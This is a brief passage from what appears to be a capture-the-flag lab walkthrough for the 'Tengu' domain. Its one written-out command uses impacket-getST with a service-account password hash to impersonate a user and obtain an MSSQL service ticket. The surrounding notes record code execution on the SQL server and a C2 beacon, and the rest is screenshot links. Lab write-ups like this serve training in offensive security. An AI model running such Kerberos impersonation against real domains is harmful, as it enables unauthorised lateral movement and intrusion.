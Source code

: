 ![](<tengu(chain)(medium)/walkthrough_20240414165418321.png>)

so let's try t2_m.winters user

```bash
zds impacket-getST -spn 'MSSQLSvc/sql.tengu.vl' -dc-ip dc.tengu.vl -impersonate 'T1_M.WINTERS' -hashes :bd1811a45423dcdd470df09ed1621b97 tengu.vl/gmsa01\$:@sql.tengu.vl
```

![](<tengu(chain)(medium)/walkthrough_20240414170607972.png>)

we have rce on sql server

![](<tengu(chain)(medium)/walkthrough_20240414170639211.png>)

get a beacon

![](<tengu(chain)(medium)/walkthrough_20240414170820529.png>)
